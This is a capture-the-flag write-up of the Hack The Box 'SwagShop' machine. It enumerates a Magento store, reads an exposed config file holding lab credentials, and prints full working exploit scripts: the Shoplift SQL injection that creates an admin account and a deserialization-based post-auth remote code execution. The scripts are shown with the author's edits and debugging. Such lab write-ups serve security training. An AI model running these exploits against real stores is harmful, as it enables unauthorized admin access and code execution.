## Enumeration

### Port Scanning

As usual, the first step is to run an Nmap scan to enumerate the target. → Identifying open ports, running services, and possibly the operating system.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop]
└─$ sudo nmap -Pn -n -sC -sV -A -T4 10.10.10.140 -oA Default-Nmap
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-23 13:10 +01
Nmap scan report for 10.10.10.140
Host is up (0.047s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.29 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   46.58 ms 10.10.14.1
2   46.72 ms 10.10.10.140

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.04 seconds 
```

**Valuable Information:**

| Port Number | Service | Version |
| ----------- | ------- | ------------------------- |
| `22/TCP` | `SSH` | `OpenSSH 7.6p1 Ubuntu 4ubuntu0.7` |
| `80/TCP` | `HTTP` | `Apache httpd 2.4.29` |

- OS: `Ubuntu`

### Footprinting HTTP-80/TCP

Before starting the fuzzing, I checked out the root webpage to see if I could spot anything useful manually.

#### Webroot


DNS couldn't resolve the domain name, so I added it to the `/etc/hosts` file.



Now let's try to revisit the Webroot page.



- We can see that the website is powered by `Magento`, which is a CMS for e-commerce. There's also a copyright notice from 2014, which gives us a hint about the Magento version, but we’ll need to dig a bit deeper to confirm it.

From here, there are a few things we could try like `directory/page fuzzing`, `crawling`, or even using a `Magento-specific application scanner`.  
Since I’ve already covered fuzzing in previous writeUps, I’ll skip it this time and start with crawling, then move on to scanning the application.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/HTB-Tools/Web-Recon]
└─$ python3 ReconSpider.py http://swagshop.htb 
```
Results will be found in a file called `results.json`

**Results**

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/HTB-Tools/Web-Recon]                
└─$ jq . results.json               
{                                                             
  "emails": [                                                                       
    "owner@example.com"                                                          
  ],                                                                                                                                                                                                                                       
  "links": [                                                    
    "http://swagshop.htb/index.php/review/product/list/id/3/#review-form",                  
    "http://swagshop.htb/index.php/customer-service/#answer7",
    "http://swagshop.htb/index.php/checkout/cart/#header-cart",
    "http://swagshop.htb/index.php/catalog/product_compare/add/product/3/uenc/aHR0cDovL3N3YWdzaG9wLmh0Yi9pbmRleC5waHAvcmV2aWV3L3Byb2R1Y3QvbGlzdC9pZC8zLw,,/form_key/zYJCViMGnI4nTDdo/",
    "http://swagshop.htb/index.php/sales/guest/form/#header-nav",        

    --------------------
    --------------------
    --------------------

  ],
  "external_files": [
    "http://swagshop.htb/index.php/css",
    "http://swagshop.htb/index.php/catalogsearch/advanced/css",

    --------------------
    --------------------
    --------------------
  ],
  "js_files": [
    "http://swagshop.htb/js/calendar/calendar.js",
    "http://swagshop.htb/js/varien/weee.js",
    "http://swagshop.htb/skin/frontend/rwd/default/js/lib/jquery-1.10.2.min.js",
    "http://swagshop.htb/skin/frontend/rwd/default/js/lib/matchMedia.js",

    --------------------
    --------------------
    --------------------
    
  ],
  "form_fields": [
    "success_url",
    "comment",
    "oar_email",
    
    --------------------
    --------------------
    --------------------
    
  ],
  "images": [
    "http://swagshop.htb/media/catalog/product/cache/1/thumbnail/50x50/9df78eab33525d08d6e5fb8d27136e95/d/s/dscf8087_st_01_1_1080x.jpg",
    "http://swagshop.htb/media/catalog/product/cache/1/image/1200x/040ec09b1e35df139433887a97daa66f/d/s/dscf8087_st_01_1_1080x.jpg",

    --------------------
    --------------------
    --------------------

  ],
  "videos": [],
  "audio": [],
  "comments": [
    "<!--[if IE 9 ]>    <html lang=\"en\" id=\"top\" class=\"no-js ie9\"> <![endif]-->",
    "<!--[if (gt IE 9)|!(IE)]><!-->",
    
    --------------------
    --------------------
    --------------------

  ]
}

```

- Didn't find anything useful, except that `index.php` always shows up in the URL.

#### Magento Application Scanner

While googling for a Magento application scanner, I came across an interesting GitHub repository. [Here](https://github.com/steverobbins/magescan?tab=readme-ov-file)

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]               
└─$ php magescan.phar scan:all swagshop.htb
Scanning http://swagshop.htb/...              
                                                                                  
 Magento Information                                                                                 

+-----------+------------------+                                                  
| Parameter | Value            |                                    
+-----------+------------------+                   
| Edition   | Community        |                                    
| Version   | 1.9.0.0, 1.9.0.1 |                     
+-----------+------------------+                   
                               
  Installed Modules                                                                                 
                                                                                 
No detectable modules were found   

    --------------------
    --------------------
    --------------------

                                                                                                                                                                                                                                           
  Unreachable Path Check  

+----------------------------------------------+---------------+--------+
| Path                                         | Response Code | Status |
+----------------------------------------------+---------------+--------+
| .bzr/                                        | 404           | Pass   |
 
    --------------------
    --------------------
    --------------------

| app/etc/local.xml                            | 200           | Fail   |
| index.php/rss/order/NEW/new                  | 200           | Fail   |
| shell/                                       | 200           | Fail   |
| var/export/                                  | 200           | Fail   |

    --------------------
    --------------------
    --------------------

```

**Valuable Information**

- Magento `Community Edition` Version `1.9.0.0, 1.9.0.1`.
- Some pages to visite:
    - `app/etc/local.xml`
    - `index.php/rss/order/NEW/new`
    - `shell/`
    - `var/export/`   

- I’ll be skipping any directories or pages that don’t seem to have valuable info.

#### /app/etc/local.xml

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop]                                   
└─$ curl swagshop.htb/app/etc/local.xml 
<config>
    <global>
        <install>
            <date><![CDATA[Wed, 08 May 2019 07:23:09 +0000]]></date>
        </install>
        <crypt>
            <key><![CDATA[b355a9e0cd018d3f7f03607141518419]]></key>
        </crypt>
        <disable_local_modules>false</disable_local_modules>
        <resources>
            <db>
                <table_prefix><![CDATA[]]></table_prefix>
            </db>
            <default_setup>
                <connection>
                    <host><![CDATA[localhost]]></host>
                    <username><![CDATA[root]]></username>
                    <password><![CDATA[fMVWh7bDHpgZkyfqQXreTjU9]]></password>
                    <dbname><![CDATA[swagshop]]></dbname>
                    <initStatements><![CDATA[SET NAMES utf8]]></initStatements>
                    <model><![CDATA[mysql4]]></model>
                    <type><![CDATA[pdo_mysql]]></type>
                    <pdoType><![CDATA[]]></pdoType>
                    <active>1</active>
                </connection>
            </default_setup>
        </resources>
        <session_save><![CDATA[files]]></session_save>
    </global>
    <admin>
        <routers>
            <adminhtml>
                <args>
                    <frontName><![CDATA[admin]]></frontName>
                </args>
            </adminhtml>
        </routers>
    </admin>
</config>

```

**Valuable Information:**
- dbname: `swagshop`
- Username: `root`
- Password: `fMVWh7bDHpgZkyfqQXreTjU9`
- Admin path: `/admin`


I tried accessing the admin panel at `/admin`, but it didn’t work. Since every URL starts with `index.php`, I tried `/index.php/admin` — and that worked.

#### /index.php/admin



I tried some basic SQL injection to bypass the login, but it didn’t work, so I’ll try a different approach.

## Vulnerability Hunting

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]             
└─$ searchsploit magento
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path                           
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection                                                                                                                                             | php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial of Service)                                                                                                                  | php/webapps/38651.txt
Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login['Username']' Cross-Site Scripting                                                                                                       | php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexController.php?email' Cross-Site Scripting                                                                                                 | php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' Cross-Site Scripting                                                                                                                                                | php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File                                                                                                                                           | php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                                                                                                                                             | php/webapps/37811.py
Magento eCommerce - Local File Disclosure                                                                                                                                                                | php/webapps/19793.txt
Magento eCommerce - Remote Code Execution                                                                                                                                                                | xml/webapps/37977.py
Magento eCommerce CE v2.3.5-p2 - Blind SQLi                                                                                                                                                              | php/webapps/50896.txt
Magento Server MAGMI Plugin - Multiple Vulnerabilities                                                                                                                                                   | php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion                                                                                                                                              | php/webapps/35052.txt
Magento ver. 2.4.6 - XSLT Server Side Injection                                                                                                                                                          | multiple/webapps/51847.txt
Magento WooCommerce CardGate Payment Gateway 2.0.30 - Payment Process Bypass                                                                                                                             | php/webapps/48135.php
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

- Found 2 intesting exploits:
  - Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution 
  - Magento eCommerce - Remote Code Execution

- The first one requires valid creds so we'll check first the second one.

## Exploitation

### Magento eCommerce - Remote Code Execution 


```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ searchsploit -x xml/webapps/37977.py

##################################################################################################
#Exploit Title : Magento Shoplift exploit (SUPEE-5344)
#Author        : Manish Kishan Tanwar AKA error1046
#Date          : 25/08/2015
#Love to       : zero cool,Team indishell,Mannu,Viki,Hardeep Singh,Jagriti,Kishan Singh and ritu rathi
#Debugged At  : Indishell Lab(originally developed by joren)
##################################################################################################

////////////////////////
/// Overview:
////////////////////////

Magento shoplift bug originally discovered by CheckPoint team (http://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/)
This python script developed by joren but it was having some bug because of which it was not working properly.
If magento version is vulnerable, this script will create admin account with username forme and password forme


////////////////
///  POC   ////
///////////////
Exploit script starts here
///////////////////
#Thanks to
# Zero cool, code breaker ICA, Team indishell, my father , rr mam, jagriti and DON
import requests
import base64
import sys

target = "http://target.com/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"


/////////////////
exploit code ends here

```

- From the description, we can tell that if the Magento version is vulnerable, the script will create a new admin account.

Let’s mirror the script and make some modifications.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ searchsploit -m xml/webapps/37977.py
  Exploit: Magento eCommerce - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/37977
     Path: /usr/share/exploitdb/exploits/xml/webapps/37977.py
    Codes: CVE-2015-1397, OSVDB-121260
 Verified: False
File Type: ASCII text
Copied to: /home/krakenn/CPTS/Boxes/SwagShop/Scripts/37977.py

┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ mv 37977.py Create-User.py

┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ vim Create-User.py

```

**Modified Script:**

```python
import requests
import base64
import sys

target = "http://swagshop.htb/index.php"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="0xkrakenn", password="0xkrakenn")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds 0xkrakenn:0xkrakenn".format(target)
else:
    print "DID NOT WORK"
```

**Changes made:**

- I removed the comments and description from the script.
- `target = "http://swagshop.htb/index.php"`
- `query = q.replace("\n", "").format(username="0xkrakenn", password="0xkrakenn")`
- `print "Check {0}/admin with creds 0xkrakenn:0xkrakenn".format(target)`

Now let's run the script.


```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ python2 Create-User.py  
WORKED
Check http://swagshop.htb/index.php/admin with creds 0xkrakenn:0xkrakenn
```




- Now that our admin account is created, we can move on to the second exploit.

### Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution 

Starting by examining the script.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ searchsploit -x php/webapps/37811.py

#!/usr/bin/python
# Exploit Title: Magento CE < 1.9.0.1 Post Auth RCE
# Google Dork: "Powered by Magento"
# Date: 08/18/2015
# Exploit Author: @Ebrietas0 || http://ebrietas0.blogspot.com
# Vendor Homepage: http://magento.com/
# Software Link: https://www.magentocommerce.com/download
# Version: 1.9.0.1 and below
# Tested on: Ubuntu 15
# CVE : none

from hashlib import md5
import sys
import re
import base64
import mechanize


def usage():
    print "Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\""
    sys.exit()


if len(sys.argv) != 3:
    usage()

# Command-line args
target = sys.argv[1]
arg = sys.argv[2]

# Config.
username = ''
password = ''
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Sat, 15 Nov 2014 20:27:57 +0000'  # This needs to be the exact date from /app/etc/local.xml

# POP chain to pivot into call_user_exec
payload = 'O:8:\"Zend_Log\":1:{s:11:\"\00*\00_writers\";a:2:{i:0;O:20:\"Zend_Log_Writer_Mail\":4:{s:16:' \
          '\"\00*\00_eventsToMail\";a:3:{i:0;s:11:\"EXTERMINATE\";i:1;s:12:\"EXTERMINATE!\";i:2;s:15:\"' \
          'EXTERMINATE!!!!\";}s:22:\"\00*\00_subjectPrependText\";N;s:10:\"\00*\00_layout\";O:23:\"'     \
          'Zend_Config_Writer_Yaml\":3:{s:15:\"\00*\00_yamlEncoder\";s:%d:\"%s\";s:17:\"\00*\00'     \
          '_loadedSection\";N;s:10:\"\00*\00_config\";O:13:\"Varien_Object\":1:{s:8:\"\00*\00_data\"' \
          ';s:%d:\"%s\";}}s:8:\"\00*\00_mail\";O:9:\"Zend_Mail\":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
                                                                                     len(arg), arg)
# Setup the mechanize browser and options
br = mechanize.Browser()
#br.set_proxies({"http": "localhost:8080"})
br.set_handle_robots(False)

request = br.open(target)

br.select_form(nr=0)
br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
br.form.fixup()
br['login[username]'] = username
br['login[password]'] = password

br.method = "POST"
request = br.submit()
content = request.read()


url = re.search("ajaxBlockUrl = \'(.*)\'", content)
url = url.group(1)
key = re.search("var FORM_KEY = '(.*)'", content)
key = key.group(1)

request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
tunnel = re.search("src=\"(.*)\?ga=", request.read())
tunnel = tunnel.group(1)

payload = base64.b64encode(payload)
gh = md5(payload + install_date).hexdigest()

exploit = tunnel + '?ga=' + payload + '&h=' + gh

try:
    request = br.open(exploit)
except (mechanize.HTTPError, mechanize.URLError) as e:
    print e.read()

```

**Changes made:**

- I removed the comments and description from the script.
- `username = '0xkrakenn'`
- `password = '0xkrakenn'`
- `install_date = 'Wed, 08 May 2019 07:23:09 +0000'`

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ searchsploit -m php/webapps/37811.py                                        
  Exploit: Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
      URL: https://www.exploit-db.com/exploits/37811
     Path: /usr/share/exploitdb/exploits/php/webapps/37811.py
    Codes: OSVDB-126445
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/krakenn/CPTS/Boxes/SwagShop/Scripts/37811.py
                                                                   
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ mv 37811.py RCE.py

┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ python2 RCE.py             
Usage: python %s <target> <argument>                                      
Example: python %s http://localhost "uname -a" 

┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ python2 RCE.py http://swagshop.htb/index.php/admin/ "whoami"
Traceback (most recent call last):
  File "RCE.py", line 55, in <module>                       
    br['login[username]'] = username                         
  File "/home/krakenn/.local/lib/python2.7/site-packages/mechanize/_mechanize.py", line 809, in __setitem__                                                                                                                    
    self.form[name] = val                                
  File "/home/krakenn/.local/lib/python2.7/site-packages/mechanize/_form_controls.py", line 1964, in __setitem__                                                                                                                           
    control = self.find_control(name)                                              
  File "/home/krakenn/.local/lib/python2.7/site-packages/mechanize/_form_controls.py", line 2356, in find_control                                                                                                                          
    return self._find_control(name, type, kind, id, label, predicate, nr)
  File "/home/krakenn/.local/lib/python2.7/site-packages/mechanize/_form_controls.py", line 2447, in _find_control description)                                                                                                                                                                                                                           
mechanize._form_controls.AmbiguityError: more than one control matching name 'login[username]'
```

- This error shows up because for whatever reason mechanizer is mechanize is seeing multiple username/password fields.

> `Mechanize` is Python library that allows Python programs to intecat with websites in a manner sismilar to human user browsing with a web browser, but without a graphical interface.
Some key features of Mechanize: `HTML Form Filling`, `Link following`, `Cookie Handling`...
{: .prompt-info }

- We’ll need to make the following changes:

```python
#br.select_form(nr=0)
#br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
#br.form.fixup()
#br['login[username]'] = username
#br['login[password]'] = password

br.select_form(predicate=lambda f: f.attrs.get('id') == 'loginForm')    # Select the correct login form
br.form.find_control(name='login[username]', nr=0).value = username     # Select the first login[username] input field and assign it the value username 
br.form.find_control(name='login[password]', nr=0).value = password     # Select the first login[password] input field and assign it the value password
```

Finally let's run our script:

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ python2 RCE.py 'http://swagshop.htb/index.php/admin/' "whoami"
Traceback (most recent call last):
  File "RCE.py", line 73, in <module>
    tunnel = tunnel.group(1)
AttributeError: 'NoneType' object has no attribute 'group'

```


- This error made my head spin. So I had to make some researches.
- Let's explain The exploit source code.

```python

br.select_form(predicate=lambda f: f.attrs.get('id') == 'loginForm')
# Selects the login form by targeting the one with id="loginForm".


br.form.find_control(name='login[username]', nr=0).value = username      
br.form.find_control(name='login[password]', nr=0).value = password     
# Fills in the login credentials by assigning the username and password variables to the corresponding input fields.


br.method = "POST"
request = br.submit()
# Sets the form method to POST and submits the login request.


content = request.read()
# Reads and stores the response body into the content variable for further processing.


url = re.search("ajaxBlockUrl = \'(.*)\'", content)
url = url.group(1)
# Extracts the ajaxBlockUrl value from the page's source using a regular expression and stores it in the url variable.


key = re.search("var FORM_KEY = '(.*)'", content)
key = key.group(1)
# Similarly, grabs the FORM_KEY (used for CSRF protection in Magento) from the page source.


request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
# Sends a POST request to a specific Magento endpoint, including the form_key in the payload to pass CSRF validation.


tunnel = re.search("src=\"(.*)\?ga=", request.read())
tunnel = tunnel.group(1)
# Searches the response for a src= attribute containing a URL and extracts it.
# Here’s where things break:
# The script tries to find the src= attribute in the response, but it doesn't exist — so the regex search fails. That means tunnel ends up being None, and when we call .group(1), it throws an error because there’s nothing to extract.
```
- Now let’s use Burp Suite to intercept the requests and confirm what we observed earlier. First we need to set the proxy by uncommenting the following line:

```python
br.set_proxies({"http": "localhost:8080"})
```
- Now let's start burp and run our script and intercept the target Request. 



URL `http://swagshop.htb/index.php/admin/dashboard/ajaxBlock/key/01626ab9c4d15b76441ad99c04250af9/block/tab_orders/period/7d/?isAjax=true`

- I sent the request to Burp’s Repeater to examine the response more carefully.



As we can see the response doesn't contain any the string `src=`. This is normal since there is no orders in  the last 7 days. I tried to modify the URL cahnging 7d by 1m, 1y, 2y, but nothing worked. 

- Looks like the shop hasn’t received any orders in over a year xD.
- I tried logging in as a customer to place a new order, but that didn’t work.
- So, the last resort is to log in to the admin panel, find an existing order, and try to reorder and ship it.

